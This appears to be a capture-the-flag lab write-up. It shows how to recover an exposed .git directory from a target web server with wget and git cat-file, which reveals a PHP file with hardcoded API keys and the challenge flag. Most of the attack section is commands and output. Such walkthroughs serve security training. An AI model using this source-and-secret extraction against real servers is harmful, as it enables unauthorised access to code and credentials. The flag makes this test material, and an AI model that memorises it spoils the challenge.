 ### Reflecting remote files and folders using local Git repository
https://github.com/bl4de/research/tree/master/hidden_directories_leaks#git

### Create dummy Git folder

```
$ git init
```


### Download the git log from the site.
`$ wget http://10.10.X.X/.git/logs/HEAD` 
`$ cat HEAD`
![[head.png]]

#### 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Object
79 = Directory
c9539b6566b06d6dec2755fdf58f5f9ec8822f = Object

The developer removed the sensitive data on the object **b2f776a52fe81a731c6c0fa896e7f9548aafceab**. 
`79c9539b6566b06d6dec2755fdf58f5f9ec8822f b2f776a52fe81a731c6c0fa896e7f9548aafceab Context Information Security <recruitment@contextis.com> 1568122860 +0100 commit: removed sensitive data`


You can find the sensitive data in the object **79c9539b6566b06d6dec2755fdf58f5f9ec8822f**.
`93bab0a450caaa8c4d2632703636eccc69062bb4 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Context Information Security <recruitment@contextis.com> 1568122828 +0100 commit: added basic prototype of api gateway`


### Extract the object from the target machine
- Create a directory called 79 into the **objects** dir.
- Download the "c9539b6566b06d6dec2755fdf58f5f9ec8822f" file to 79 dir.

```
$ mkdir 79
$ cd 79
$ wget http://10.10.X.X/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
### Read the content of the tree object 1
```
$ cd 79
$ git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
> tree **51d63292792fb7f97728cd3dcaac3ef364f374ba**
> parent 93bab0a450caaa8c4d2632703636eccc69062bb4
> author Context Information Security <recruitment@contextis.com> 1568122828 +0100
> committer Context Information Security <recruitment@contextis.com> 1568122828 +0100

You got a tree **object 51d63292792fb7f97728cd3dcaac3ef364f374ba**
- Create a directory called 51 into the **objects** dir.
- Download the "51d63292792fb7f97728cd3dcaac3ef364f374ba" file to 51 dir.
```
$ mkdir 51
$ cd 51
$ wget http://10.10.X.X/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba
```

### Read the content of the tree object 2
```
$ cd 51
$ git cat-file -p 51d63292792fb7f97728cd3dcaac3ef364f374ba
```

> 100644 blob 2229eb414d7945688b90d7cd0a786fd888bcc6a4    api.php
> 100644 blob 9eb9f94f73113d785e65c7e3ec0cba54e0b7cf43    functions.php
> 100644 blob 2a116a56a6e31ef1836796936dbc05af1f986a26    home.php
> 100755 blob 470cac65fcd0f8556f13997957a331628482aa96    index.html
> 100644 blob 4f4ced90fcad774ca4f9f966dbb227ebe7f77a83    index.php
> 100644 blob 6480abf34a54d3055b437766be872a13bcebdf7d    info.php

The sensitive data is stored inside api.php or object **2229eb414d7945688b90d7cd0a786fd888bcc6a4**.

- Create a directory called 22 into the **objects** dir.
- Download the "29eb414d7945688b90d7cd0a786fd888bcc6a4" file to 22 dir.

```
$ mkdir 22
$ cd 22
$ wget http://10.10.X.X/.git/objects/2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

### Read the content of the tree object 3
```
$ cd 22
$ git cat-file -p 2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

```
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "**GITtFi80llzs4TxqMWtCotiTZpf0HC**"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}

/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/

$conn = setup_db_connection();

//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);

$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>                                                                                                                                                                           
```

The GIT flag is **GITtFi80llzs4TxqMWtCotiTZpf0HC**.

**Next step:** [[4. What is the flag in the var www directory of the web app host? {FLAG Webapp XXX}]]
